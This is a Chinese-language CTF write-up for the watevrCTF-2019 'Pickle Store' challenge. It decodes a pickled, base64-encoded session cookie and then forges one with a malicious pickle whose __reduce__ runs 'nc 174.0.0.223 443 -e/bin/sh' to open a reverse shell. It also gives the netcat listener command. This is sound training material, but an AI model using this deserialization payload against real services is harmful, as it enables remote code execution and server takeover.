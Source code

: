 ```yaml
---
title: '[watevrCTF-2019]Pickle Store'
date: 2024-09-24 16:16:34
tags: shell反弹
categories: 刷题笔记
---
```


## [watevrCTF-2019]Pickle Store

我们发现购买第一个和第二个时，cookie会发生变化

![image-20240924163709474](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409241637562.png)

所以我们想到，是否能伪造session来购买flag

因为题目提到了pickle，那我们考虑用pickle反序列化来解析这个session

<!--more-->

 https://www.php.cn/python-tutorials-372984.html

![image-20240924164031587](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409241640656.png)

我们可以明确，这段session是被反序列化出来的，序列化后的信息被base64加密过后再被放到session里

所以我们反推原始cookie信息

```
import pickle
from base64 import *

enc = "gAN9cQAoWAUAAABtb25leXEBTQQBWAcAAABoaXN0b3J5cQJdcQMoWBUAAABZdW1teSBzdGFuZGFyZCBwaWNrbGVxBFgVAAAAWXVtbXkgc3RhbmRhcmQgcGlja2xlcQVYFAAAAFl1bW15IHNtw7ZyZ8Olc2d1cmthcQZYFQAAAFl1bW15IHN0YW5kYXJkIHBpY2tsZXEHWBUAAABZdW1teSBzdGFuZGFyZCBwaWNrbGVxCFgUAAAAWXVtbXkgc23DtnJnw6VzZ3Vya2FxCWVYEAAAAGFudGlfdGFtcGVyX2htYWNxClggAAAANzM2YWZjODk0NmYwZDQyZWMyODViOGU4MGUyNzEyOTBxC3Uu"

print(pickle.loads(b64decode(enc)))
#运行后回显:{'money': 260, 'history': ['Yummy standard pickle', 'Yummy standard pickle', 'Yummy smörgåsgurka', 'Yummy standard pickle', 'Yummy standard pickle', 'Yummy smörgåsgurka'], 'anti_tamper_hmac': '736afc8946f0d42ec285b8e80e271290'}


```

这段json串"anti_tamper_hmac"字段明显的表明了，使用了加密手段。

我们可以进行getshell

先构造nc的序列化

```
import base64
import pickle


class A(object):
    def __reduce__(self):
        return (eval, ("__import__('os').system('nc 174.0.0.223 443  -e/bin/sh')",))
a = A()
print( base64.b64encode( pickle.dumps(a) ) )
#gASVVAAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIw4X19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ25jIDE3NC4wLjAuMjIzIDk5OTkgLWUvYmluL3NoJymUhZRSlC4=

```



我们先监听端口

```
nc -lvp 443
```

然后将session修改，传上去

然后将页面刷新，成功连接

然后ls再cat flag.txt得到flag

![image-20240927195156608](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409271952708.png)
